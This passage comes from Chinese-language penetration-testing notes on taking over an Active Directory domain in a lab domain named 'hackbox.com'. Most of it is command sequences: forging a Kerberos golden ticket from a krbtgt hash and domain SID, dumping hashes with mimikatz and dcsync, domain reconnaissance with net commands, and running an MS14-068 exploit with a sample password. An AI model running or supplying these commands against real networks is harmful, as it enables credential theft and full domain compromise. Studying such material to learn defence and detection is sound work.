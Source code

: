 ```
golden_ticket_create -d hackbox.com -u moonsec -s S-1-5-21-2005268815-658469957-1189185684 -k 6f60ace6accbcb76078ccc0312174e98 -t /tmp/krbtgt.ticket
```

```
golden_ticket_create -d <域名> -u <任意用户名> -s <Domain SID/krbtgt> -k <krbtgt NTLM Hash> -t <ticket 本地存储路径如:/tmp/krbtgt.ticket>

```


```

获取dc的hash mimikatz hashdump
dcsync hackbox.com hackbox\krbtgt 获取krbtgt
```

![image-20210215170157372](https://i.loli.net/2021/02/15/cwnVI6xTka8qyCU.png)

![image-20210216083207018](https://i.loli.net/2021/02/16/9BGycbrPvMwsuq3.png)

#### 0x12 CS

信息收集

```
ipconfig /all ------ 查询本机IP段，所在域等
net user ------ 本机用户列表
net user /domain ------ 查询域用户
net group /domain ------ 查询域里面的工作组
net group “domain admins” /domain ------ 查询域管理员用户组
net config workstation ------ 当前登录域
net share ------ 查看SMB指向的路径[即共享]
```

```
net domain_controllers
net domain_trust
```

```
S-1-5-21-2005268815-658469957-1189185684-502
S-1-5-21-2005268815-658469957-1189185684-1103
```

```
ms14-068.exe -u web@hackbox.com -s S-1-5-21-2005268815-658469957-1189185684-1103 -d 10.10.10.149 -p !@#Qwe456
```

现在开始制作黄金票据

```
dcsync hackbox.com hackbox\krbtgt
导出域控看krbtgt有关信息
```

![image-20210216183845527](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210216183845527.png)